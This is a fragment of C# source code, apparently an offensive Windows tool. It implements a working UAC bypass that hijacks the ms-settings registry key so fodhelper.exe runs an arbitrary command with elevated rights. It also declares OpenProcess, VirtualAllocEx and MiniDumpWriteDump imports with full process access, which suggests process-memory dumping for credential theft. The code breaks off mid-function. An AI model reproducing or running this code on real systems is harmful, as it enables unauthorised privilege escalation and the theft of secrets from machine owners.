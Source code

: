 ```c#
{
    [DllImport("kernel32")]
    private static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, UInt64 dwSize, UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr OpenProcess(UInt64 dwDesiredAccess, bool bInheritHandle, UInt64 dwProcessId);

    [DllImport("dbghelp")]
    private static extern bool MiniDumpWriteDump(IntPtr hProcess, UInt64 ProcessId, SafeHandle hFile, UInt64 dumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

    private static UInt64 DELTE = 0x10000;
    private static UInt64 READ_CONTROL = 0x20000;
    private static UInt64 WRITE_DAC = 0x40000;
    private static UInt64 WRITE_OWNER = 0x80000;
    private static UInt64 SYNCHRONIZE = 0x1000000;
    private static UInt64 END = 0xFFF;
    private static UInt64 PROCESS_ALL_ACCESS = (DELTE | READ_CONTROL | WRITE_DAC | WRITE_OWNER | SYNCHRONIZE | END);

    //Perform UAC bypass using fodhelper
    static void ByPassUAC(string command)
    {
        //UAC Bypass using fodhelper.exe
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / v DelegateExecute / t REG_SZ
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / d "cmd.exe" / f

        RegistryKey myKey = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command");
        if (myKey == null)
        {
            RegistryKey tmpKey = Registry.CurrentUser.CreateSubKey(@"Software\\Classes\\ms-settings\\shell\\open\\command");
            tmpKey.Close();
        }
        myKey.Close();
        RegistryKey Key = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command",true);
        Key.SetValue("DelegateExecute", "REG_SZ");
        Key.SetValue("", command);
        return;
    }

    //Start a fodhelper.exe process
    static Process ActivateProcess(string name)
    {
        Process p = new Process();
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.FileName = name;
        p.Start();
        return p;
    }

    static void ExecuteInProcess(Process client)
    {
        using(AnonymousPipeServerStream pipeServer = new AnonymousPipeServerStream(PipeDirection.Out, HandleInheritability.Inheritable))
        {
            client.StartInfo.Arguments = pipeServer.GetClientHandleAsString();
```